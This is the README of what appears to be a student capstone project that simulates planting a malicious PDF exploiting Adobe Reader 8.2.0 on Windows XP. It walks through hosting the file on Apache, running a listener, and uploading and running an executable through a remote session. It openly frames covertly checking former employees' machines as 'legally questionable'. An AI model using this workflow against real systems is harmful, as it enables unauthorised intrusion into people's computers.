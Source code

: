 # CyberEffects_IPDIMG
CyberEffects Capstone - Intellectual Property Defense via Illegal Methods Group (IPDIMG)

This is a simulation of a legally questionable way of determining whether intellectual property was not properly deleted after employment termination. Our capstone utilizes a vulnerability in Adobe Reader ver. 8.2.0 where payloads can be embedded into a .pdf file, and executed once opened in the vulnerable PDF reader. With this initial

## Vulnerable Target

Windows XP OS with Adobe Reader ver. 8.2.0 installed

Link to the vulnerable Adobe Reader ver. 8.2.0 [here](http://www.oldversion.com/windows/acrobat-reader-8-2-0)

Free Windows XP .iso file [here](https://eprebys.faculty.ucdavis.edu/2020/04/08/installing-windows-xp-in-virtualbox-or-other-vm/#:~:text=The%20product%20key%20is%20now,Mac%20can%20be%20found%20here.)

## Setting up Apache2 server to host malicious PDF

Install apache2

Copy the index.html and malicious pdf to the '/var/www/html' directory

Run 'sudo systemctl start apache2' to start the server

File can be downloaded at http://***host network IP***:80

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Use 'ip addr show' and locate the host network IP

## Setting up and running any of the shell scripts

'chmod +x <script name>'

'./***script name***'

## General Steps

1. Begin by generating the malicious PDF and generate encrypted archive file by generating the exe of 'generate_malicious_pdf.sh'.
  
          chmod +x generate_malicious_pdf.sh
  
          ./generate_malicious_pdf.sh

2. Start listener by running the listener.sh script
  
          chmod +x listener.sh
          
          ./listener.sh
  
3. Upload the upload_exe.rc file to the target machine via session
  
          sessions -i 1
  
          upload upload_exe.rc
  
4. Run the resource script in order to upload and run the executable
  
          resource upload_exe.rc

